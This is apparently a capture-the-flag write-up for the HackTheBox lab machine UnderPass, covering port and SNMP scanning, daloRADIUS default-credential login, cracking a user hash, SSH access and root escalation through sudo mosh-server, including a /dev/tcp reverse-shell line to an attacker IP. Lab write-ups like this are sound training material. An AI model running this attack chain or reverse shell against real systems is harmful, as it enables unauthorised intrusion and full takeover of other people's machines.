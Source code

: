 ```yaml
---
title: HackTheBox -UnderPass
author: Bonface
date: 2025-04-11 00:00:00 +0000
categories:
  - HackTheBox
  - Machines
tags:
  - HackTheBox
  - linux
  - nmap
  - web
  - snmp
image:
  path: /assets/img/HTB/Machines/underpass/UnderPass.png
  alt: underpass.htb
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/1670709"></script> </div>

---
**Underpass** is an easy-rated Linux machine that starts with a default Apache Ubuntu page on port 80. Further enumeration reveals an SNMP service running on UDP port 161, which discloses that the box is hosting **daloRADIUS**. By navigating through the application and using default credentials, access is gained to the operators' panel, where a user hash for `svcMosh` is discovered and cracked. With the obtained password, SSH access is achieved. Privilege escalation is possible due to misconfigured `sudo` permissions allowing `svcMosh` to execute `mosh-server` as root, ultimately leading to full system compromise.


# Enumeration
## port scan

We start off with a typical nmap scan to identify the open ports.  
```bash
sudo nmap --min-rate 10000 10.10.11.48
...[snip]...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

we have two open tcp ports lets now use the nmap scripts for further enumeration.  
```bash
nmap -sC -sV -p22,80 -vv 10.10.11.48 -o nmap/scan1
...[snip]...

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Now lets scan for open udp ports using the `-sU` flag on nmap.  
```nmap
nmap -sU -vv 10.10.11.48 -o nmap/udpscan1 --min-rate 10000
...[snip]...

PORT      STATE  SERVICE         REASON
161/udp   open   snmp            udp-response ttl 63
623/udp   closed asf-rmcp        port-unreach ttl 63
18818/udp closed unknown         port-unreach ttl 63
21576/udp closed unknown         port-unreach ttl 63
21655/udp closed unknown         port-unreach ttl 63
24279/udp closed unknown         port-unreach ttl 63
32780/udp closed sometimes-rpc24 port-unreach ttl 63
32815/udp closed unknown         port-unreach ttl 63
49204/udp closed unknown         port-unreach ttl 63

```

From the scans we have 3 open ports(2 Tcp and 1 Udp).  
The service running on port 22 is `ssh` while port 80 is `http`.  
On the `udp` port we have `snmp`.  

## snmp Enumeration

```bash
snmp-check 10.10.11.48
...[snip]...

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 06:21:14.20
  Uptime system                 : 06:21:02.86
  System date                   : 2025-4-11 16:35:52.0


```

We get a user `steve@underpass.htb` and with this will add `underpass.htb` to etc hosts.  
From the `Hostname` find that `UnDerPass.htb is the only daloradius server in the basin!`  
[daloRADIUS](https://github.com/lirantal/daloradius) is an advanced RADIUS web management application for managing hotspots and general-purpose ISP deployments.From the repository we get the directory structure.  

## Web Enumeration(80)
Visiting the site we get  Apache2 Default Page.  
![image](https://gist.github.com/user-attachments/assets/89743026-f8fc-4de6-886f-4e88c05f5fa2)

Lets also visit `daloradius` ,  since the page does not load we can run a directory scan using `feroxbuster`   
```bash
feroxbuster -u http://underpass.htb/daloradius

...[snip]...

200 http://underpass.htb/daloradius/doc/install/INSTALL
200 http://underpass.htb/daloradius/LICENSE

```

The scan has lots of `301` but we have the outstanding two.  

**`http://underpass.htb/daloradius/doc/install/INSTALL`**  
```
...[snip]...
  daloRADIUS version 0.9 stable release
 by Liran Tal <liran.tal@gmail.com>
 =========================================


...[snip]...
 5. INSTALLATION COMPLETE
 ------------------------
    Surf to http://yourip/daloradius
    Login:
		username: administrator
		password: radius

    Notice: don't forget to change the default password in the Configuration -> Operators page
			don't forget to also REMOVE completely or rename to some random undetected name the update.php script!
```

We now have the version that we can use to search for an exploit and the default   credentials:
	`username` : `administrator`
	`password` : `radius`  
All we have to do is search for a login page. We can fuzz the application again or just search for the file in the github repository, to get `https://github.com/lirantal/daloradius/blob/master/app/users/login.php`
thus in our site will be `http://underpass.htb/daloradius/app/users/login.php`
![image](https://gist.github.com/user-attachments/assets/867651b6-5427-4018-aef6-6f2eb2eba347)

The default `creds dont` work on this page lets move on to the other login page we saw in : `http://underpass.htb/daloradius/app/operators/login.php` 
![image](https://gist.github.com/user-attachments/assets/9bf2e998-2412-40da-881e-3baee0536255)
Logged in, now lets poke around and see what we have.  
![image](https://gist.github.com/user-attachments/assets/d3bbeb35-471e-4541-96c1-67c96aca21f7)

we have:
	`username` : `svcMosh`
	`pass_hash` : `412DD4759978ACFCC81DEAB01B382403`
	`password` : `...`

With this we can use `Hashcat` to crack the password but also you can crack using some online tool like [crackstation](https://crackstation.net/).  
```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --username --show
svcMosh:412dd4759978acfcc81deab01b382403:underwaterfriends
```

## Foothold
We had ssh running on port 22 and now that we have valid user and password why not try logging.  
	`username` : `svcMosh`
	`password` : `underwaterfriends`

```bash
ssh svcMosh@underpass.htb
```


# Priv_Esc
Since we have the password we start off with `sudo -l` to lists the commands **we are allowed to run with `sudo`** without providing a full shell.  
```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
svcMosh@underpass:~$ 

```

We can run `/usr/bin/mosh-server` **as root**   
**Mosh** (Mobile Shell) is usually used to provide a more stable remote shell experience over unreliable networks.  
```bash
svcMosh@underpass:~$ mosh 
Usage: /usr/bin/mosh [options] [--] [user@]host [command...]
        --client=PATH        mosh client on local machine
                                (default: "mosh-client")
        --server=COMMAND     mosh server on remote machine
                                (default: "mosh-server")

```

we can execute commands with  mosh-server, lets get a reverse shell as root.  
```bash
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" bash -i >& /dev/tcp/10.10.16.20/1337 0>&1
svcMosh@underpass:~$ 

```

I keep getting errors with that but here is one that works:
```
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" localhost
svcMosh@underpass:~$ 

...[snip]...

root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
root@underpass:~# whoami
root
root@underpass:~# ls
root.txt
root@underpass:~# 

```

# Reference
- https://medium.com/@yashpawar1199/comprehensive-guide-to-snmp-protocol-vulnerabilities-and-pentesting-1490ee0dd665
- https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html?highlight=snmp#1611621016110162udp---pentesting-snmp


